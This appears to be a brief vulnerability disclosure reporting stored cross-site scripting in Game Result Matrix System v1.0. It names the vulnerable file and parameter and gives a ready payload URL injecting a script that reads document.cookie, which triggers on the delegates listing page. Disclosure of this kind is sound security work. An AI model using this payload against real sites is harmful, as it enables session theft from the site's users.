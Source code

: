 # Game Result Matrix System v1.0 has stored cross-site scripting

BUG_Author: zhangyf

Website source code address: https://www.sourcecodester.com/php/14022/game-result-matrix.html

Vulnerability File: /dipam/save-delegates.php

GET parameter "del_name" exists stored cross-site scripting vulnerability

Payload: /dipam/save-delegates.php?del_name=<script>alert(document.cookie)</script>&del_color=%23000000

![image](https://github.com/M9KJ-TEAM/CVEReport/blob/main/5.png)

Payload will trigger when a user visits on http://localhost/dipam/all-delegates.php.

![image](https://github.com/M9KJ-TEAM/CVEReport/blob/main/6.png)
